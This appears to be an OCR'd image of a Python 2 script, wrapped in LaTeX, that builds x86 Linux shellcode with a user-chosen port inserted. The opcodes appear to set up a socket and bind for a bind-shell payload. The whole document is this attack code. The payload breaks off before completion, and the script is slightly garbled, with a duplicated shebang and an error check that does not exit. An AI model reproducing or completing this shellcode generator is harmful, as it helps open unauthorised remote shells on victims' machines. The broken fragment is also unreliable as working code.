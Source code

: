 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
#!/usr/bin/python

#!/usr/bin/python

import sys

if len(sys.argv) != 2:
  print "Fail!"

port_number     = int(sys.argv[1])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
joined          = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
shellcode+="\\x51\\x66\\x68" + joined + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"

\end{verbatim}
\end{document}
